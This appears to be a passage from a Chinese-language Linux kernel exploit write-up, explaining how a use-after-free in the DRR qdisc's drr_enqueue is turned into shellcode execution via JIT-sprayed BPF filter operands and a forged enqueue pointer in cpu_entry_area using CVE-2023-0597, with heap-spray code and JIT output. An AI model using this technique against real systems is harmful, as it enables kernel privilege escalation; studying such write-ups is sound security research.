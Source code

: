 　　先来看一下 USE 点，通过 sendmsg 堆喷可以控制 cl 的内容.

```plain
static int drr_enqueue(struct sk_buff *skb, struct Qdisc *sch,
               struct sk_buff **to_free)
{
    unsigned int len = qdisc_pkt_len(skb);
    struct drr_sched *q = qdisc_priv(sch);
    cl = drr_classify(skb, sch, &err);
    first = !cl->qdisc->q.qlen;
    err = qdisc_enqueue(skb, cl->qdisc, to_free);
    return err;
}
```

　　qdisc\_enqueue 里面会调用 cl->qdisc->enqueue，作者利用一些技巧在不泄漏地址随机化的情况下在内核中执行 shellcode

1.  堆喷 ebpf，利用 ebpf 指令的操作数在 内核可控位置 （sc\_addr）布置 shellcode
2.  利用 CVE-2023-0597 在 cpu\_entry\_area （内核地址固定）处伪造 qdisc->enqueue 到 sc\_addr
3.  占位 cl 劫持 cl->qdisc 到 cpu\_entry\_area
4.  qdisc\_enqueue 调用函数指针跳转到 sc\_addr 执行 shellcode.

　　‍

### 堆喷 shellcode

　　用户态可以通过 setsockopt 分配

```plain
struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

　　filter 里面就是一堆的 ebpf 指令

```plain
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

　　上述指令生成 jit 后的代码如下：

```plain
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```
